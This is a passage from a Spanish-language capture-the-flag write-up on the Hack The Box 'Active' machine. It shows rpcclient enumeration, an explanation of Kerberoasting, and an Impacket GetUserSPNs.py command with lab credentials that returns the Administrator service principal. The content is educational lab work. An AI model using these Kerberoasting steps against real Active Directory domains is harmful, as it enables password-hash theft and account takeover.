 * Enumerar los dominios activos:
```batch
rpcclient $> enumdomains
name:[ACTIVE] idx:[0x0]
name:[Builtin] idx:[0x0]
```

Con esto ya demostrado, es momento de buscar una forma de obtener acceso como Root.


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Ataque">Aplicando Ataque Kerberoasting</h2>

Podriamos decir que no tenemos otros vector de ataque, pero recuerda que esta activo el **servicio kerberos**, por lo que podemos buscar un exploit que nos ayude a ganar acceso a la máquina con ls recursos que ya contamos.

Durante la busqueda, encontre el ataque Kerberoasting, pero ¿en qué consiste este ataque?

| **Ataque Kerberoasting** |
|:-----------:|
| *Kerberoasting es un ataque que abusa del protocolo Kerberos para recopilar hash de contraseñas para cuentas de usuario de Active Directory con valores servicePrincipalName (SPN), es decir, cuentas de servicio. Un usuario puede solicitar un ticket del servicio de otorgamiento de boletos (TGS) para cualquier SPN, y partes del TGS se pueden cifrar con RC4 utilizando el hash de contraseña de la cuenta de servicio que tiene asignado el SPN solicitado como clave. Por lo tanto, un adversario que pueda robar boletos TGS (ya sea de la memoria o capturándolos rastreando el tráfico de la red) puede extraer el hash de la contraseña de la cuenta de servicio e intentar un ataque de fuerza bruta fuera de línea para obtener la contraseña de texto sin formato.* |

<br>

En resumen, podemos robar un **boleto TGS** de un **SPN** cualquiera, por ejemplo del usuario **administrador** del directorio activo, esto para que podamos recopilar el hash de su contraseña y la podamos descifrar. Y como esto lo puede pedir un usuario, al cual ya tenemos acceso, podemos intentar aplicar este ataque.

Para utilizar este ataque, necesitamos la herramienta **GetUserSPNs.py** que viene con la librería **Impacket**, si no lo tienes, aquí te dejo un link en donde puedas descargarlo, pero recomiendo que instales la librería **Impacket**:
* <a href="https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py" target="_blank">Repositorio de fortra: GetUserSPNs.py</a>

Vamos a usar este ataque, hagámoslo por pasos:

* Primero veamos si podemos obtener el **Ticket TGS**:
```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 14:06:40.351723  2023-05-03 15:50:43.047354
```
